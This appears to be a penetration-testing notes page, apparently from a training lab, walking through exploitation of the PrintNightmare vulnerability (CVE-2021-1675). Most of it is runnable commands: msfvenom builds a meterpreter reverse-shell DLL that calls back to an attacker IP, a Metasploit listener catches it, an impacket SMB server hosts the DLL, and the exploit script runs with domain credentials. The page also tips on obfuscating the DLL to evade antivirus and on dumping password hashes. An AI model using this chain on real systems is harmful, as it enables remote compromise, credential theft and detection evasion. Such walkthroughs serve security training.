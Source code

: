 * If you see the following output, you are indeed <mark style="color:yellow;">VULNERABLE</mark>
* Utilize the RCE exploit found below!

### Exploitation

* We need to create and host a malicious DLL

Create malicious DLL:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.138.128 LPORT=5555 -f dll > shell.dll
```

Start Metasploit:

```
msfconsole

use multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set lport 5555

set lhost tun0

run

listening
```

Share File (SMB Server):

```
impacket-smbserver smb . -smb2support

python3 CVE-2021-1675.py marvel.local/fcastle:Password1@192.168.138.132 '\\kali_IP\smb\shell.dll'
```

If you get an error: make sure you are utilizing smb2support!

### Returning back to Meterpreter

* You can obfuscate the DLL if it keeps getting caught by AV
* You will notice that hashes can be dumped upon using hashdump and if you do shell you can gain shell access.
* Be sure to run getuid as well

### Repos

RCE:

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

Local Privilege Escalation:

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}
